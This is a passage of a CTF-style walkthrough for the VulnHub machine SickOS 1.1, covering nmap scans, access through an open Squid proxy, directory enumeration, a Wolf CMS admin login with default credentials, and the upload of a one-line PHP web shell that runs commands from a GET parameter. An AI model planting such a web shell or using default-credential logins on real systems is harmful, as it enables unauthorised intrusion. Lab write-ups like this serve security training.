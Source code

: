 # SickOS 1.1 Walkthrough (Getting root)
-----------------------------------------
- OS (Box): Ubuntu (SickOS 1.1 - https://www.vulnhub.com/entry/sickos-11,132/)
- Objective: Obtain root user, and find flag in /root/ directory (without using any walkthroughs).
-----------------------------------------

# 1. Nmap
- **We could not find the IP address for the box using ‘nmap -sn’ or ‘-Pn’ scan. But using sudo it is possible to scan for the box.**
  ```
  (kali@kali)-[~] $ nmap -sn 192.168.56.0/24 
  Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-19 15:14 ESTIU 
  Nmap scan report for (192.168.56.1) Host is up (0.00024s latency). 
  Nmap scan report for 192.168.56.3 cm Host is up (0.00013s latency). Nmap done: 256 IP addresses (2 hosts up) scanned in 2.97 seconds
  ```
  > 192.168.56.11 is identified as SickOS. (.1 is the host machine, .2 is the VirtualBox router (https://router-network.com/ip/192-168-56-2), and .3 is Kali.)

- **Using ‘nmap -sV’ we can see the running services. Squid proxy on Port 3128 seems promising, so let's look into that.**

  ```
  (kali@kali) - [~] $ sudo nmap -sV 192.168.56.11 
  Starting Nmap 7.91 ( https://nmap.org) at 2022-02-19 15:51 EST 
  Nmap scan report for 192.168.56.11 Host is up (0.00031s latency) 
  Not shown: 997 filtered ports PORT STATE SERVICE VERSION 
  22/tcp open ssh OpenSSH 5.9p1 Debian Subuntul.1 (Ubuntu Linux; protocol 2.0) 
  3128/tcp open http proxy Squid http proxy 3.1.19 
  8080/tcp closed http-proxy MAC Address: 08:00:27:AB:F1:24 (Oracle VirtualBox virtual NIC) Service Info: 05: Linux; CPE: cpe:/o:linux:linux kernel
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 15.92 seconds
  ```
-----------------------------------------
# 2. Proxy
- FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns; put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog.
Let’s use the extension to connect to the Squid http proxy by entering in the box’s IP address and Port 3128. We are able to connect to the proxy server without any type of authentication. Then we’re able to access the running web service, which is just a blank page with text.


  ![img](https://i.ibb.co/xMzxv0t/Screenshot-2.png)

  ![img](https://i.ibb.co/dM4qF3n/Screenshot-1.png)

-----------------------------------------

# 3. Dirb
- The tool ‘dirb’ (with -p specified) lists a few 200 codes for you to explore. The page robots.txt shows a disallow on /wolfcms/ therefore let’s look further into the box’s CMS. 

  ![img](https://i.ibb.co/jv1s4hd/Screenshot-1.png)

- Browsing online through Wolf CMS’s documentation, I noticed a config.php file that Wolf CMS creates during installation. So let’s dirb the /wolfcms directory to see if it’s there. And there it is.
(Wolf CMS Documentation: https://wolf-cms.readthedocs.io/en/latest/getting-started/installation/)

  ![img](https://i.ibb.co/pWqgzGN/Screenshot-3.png)
  > http://192.168.56.11/wolfcms/config (CODE:200|SIZE:403)
-----------------------------------------

# 4. Wolf CMS Login
- Regarding from the Wolf CMS’s documentation, we find ‘wolfcms/?/admin/login’ which is the admin login panel. Using the default credentials admin:admin, we can access the CMS as admin. Click around a bit (to understand how the CMS works) and you will find a page that allows file uploading.


  ![img](https://i.ibb.co/BT31Mx2/Screenshot-1.png)
-----------------------------------------

# 5. Wolf CMS File Upload and Permissions
- Let’s upload a php file randomly named yaya.php that will allow shell commands to be sent via a GET request. We can use this php script

  ```php
  <?php if (isset($_GET['cmd'])) { print(shell_exec($_GET['cmd'])); }
  ```
- In this PHP script, we set a function which checks if a variable is specified and not ‘NULL’ in a HTTP-GET request. Then the ‘shell_exec’ function will execute commands via a shell, after a variable is specified (cmd); commands are positioned after cmd=. The php script executes and displays the results on the web page.
